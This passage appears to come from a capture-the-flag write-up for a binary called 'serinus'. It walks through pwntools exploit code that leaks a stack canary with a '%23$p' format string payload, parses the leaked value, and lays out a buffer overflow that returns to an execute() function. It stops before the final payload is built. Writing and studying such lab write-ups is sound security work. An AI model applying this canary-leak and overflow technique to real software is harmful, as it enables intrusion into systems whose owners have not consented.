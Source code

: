 We'll need to then format the payload for the canary leak operation, abusing the format string vulnerability. Recall that the index for the canary pointer that we're looking to print is at index `23`.

```Python
payload = f'%23$p'.encode()
p.sendlineafter(b'', payload)
```

We'll then need to retrieve the actual canary address value. There's multiple ways you can do this, I opted for splitting the strings retrieved by whitespace and filtering for a value that contains `0x`, indicating an actual hexadecimal address. 

```Python
leak = p.recvuntil(b"rate it", drop=True)

for token in leak.split():
    print(f"Token: {token}")
    if token.startswith(b"0x"):
        canary = int(token, 16)
        log.info(f"Canary Value: {hex(canary)}")
        break
```

To visualize how this would look, I've added a `print` statement just for debugging. This is what it would look like:

```
└─$ python3 exp.py
[+] Starting local process './serinus': pid 469241
......
Token: b'you'
Token: b'like'
Token: b'my'
Token: b'bird'
Token: b'drawing?'
Token: b'0xc5743500'
[*] Canary Value: 0xc5743500
```

We'll then need to find the address necessary to return to the `execute()` function. `pwntools` also has easy usability into this - we can easily just search for the function address via `elf.sym[execute]`.

```Python
syst = elf.sym['execute']
```

Finally, we'll form our payload. Rather than just fill the buffer with `\x42`'s like I did in the previous challenge, `pwntools` has a function that allows us to generate "cyclic" sequences of strings that will form 4 bytes in length for each amount provided.

Remember that our padding process to reach the return address is the following:

```
padding(64) + canary(4) + padding(12 -> ret add) + execute_func(4) 
```

